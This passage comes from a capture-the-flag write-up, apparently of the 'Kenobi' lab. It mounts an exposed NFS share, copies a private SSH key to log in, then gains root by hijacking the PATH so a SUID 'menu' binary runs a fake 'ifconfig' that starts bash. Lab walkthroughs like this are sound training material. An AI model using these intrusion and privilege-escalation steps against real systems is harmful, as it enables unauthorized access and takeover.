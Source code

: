 ![2022-12-16_19-27](https://user-images.githubusercontent.com/87711310/208113878-a4f8fc7f-f6eb-429d-9141-629741c4aea0.png)

After copying the file, let’s mount the var directory.

```
sudo mkdir /mnt/kenobi
sudo mount 10.10.5.29:/var /mnt/kenobi
sudo cp /mnt/kenobi/tmp/id_rsa .
```

Now, we can read id_rsa file and get access to target system.

```
chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.5.29
```

![2022-12-16_19-28](https://user-images.githubusercontent.com/87711310/208114140-c1f42f21-272d-4eae-8c4d-6ace9faddd66.png)

## Privilege Escalation
We’re inside. Now we have to gain root privileges. I checked that is there any sudo rights that defined to me on the system but there’s nothing. The next step will be to check whether any suid binaries can be manipulated in the prompt.

```
find / -perm -u=s -type f 2>/dev/null
```
[2022-12-16_19-30](https://user-images.githubusercontent.com/87711310/208114675-a1f513f1-f6c1-4848-ad09-d67630b8ca52.png)

As seen in the picture, there is a suid binary named menu. It’s a specially written program

![2022-12-16_19-30_1](https://user-images.githubusercontent.com/87711310/208114770-1f3a8909-7c8a-452e-8a10-0d20c5021e3c.png)

When we run the program, see that there is a few system options like ifconfig, kernel version. The binary is belong to root user and root group.

```
strings /usr/bin/menu
```
![2022-12-16_19-30_2](https://user-images.githubusercontent.com/87711310/208114983-282d5b62-832b-4336-ab3f-20e47b1b87d0.png)

If we check human readable strings that belong to menu binary via strings command, see that there are 3 system command. If we manipulate the binary we can gain root privileges. To do this we’ll use path variable manipulation method. With this method, we can run system programs by changing our path variable and running the code pieces we have written as a system program.

```
echo $PATH
mkdir bin
cd bin
echo "/bin/bash" > ifconfig
chmod +x ifconfig
/usr/bin/menu 
```
![2022-12-16_19-31](https://user-images.githubusercontent.com/87711310/208115115-daf4da95-362a-4ed2-bec3-012a2d48345b.png)

When we follow the steps, we’ll be gained root access.
